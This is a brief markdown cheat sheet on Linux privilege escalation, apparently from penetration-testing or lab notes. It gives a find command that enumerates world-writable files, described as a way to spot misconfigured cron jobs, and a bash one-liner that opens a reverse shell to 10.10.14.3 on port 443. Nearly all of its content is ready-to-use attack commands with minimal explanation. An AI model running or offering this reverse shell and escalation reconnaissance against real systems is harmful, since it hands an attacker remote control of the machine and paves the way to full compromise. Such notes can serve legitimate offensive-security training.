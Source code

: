 #Linux_PrivilegeEscalation 

- To find misconfigured cron jobs we use the following command:
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

**Note**: The above command prevents the find from going into the `/proc` directory

- **One-liner for Reverse Shell**
```bash
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```
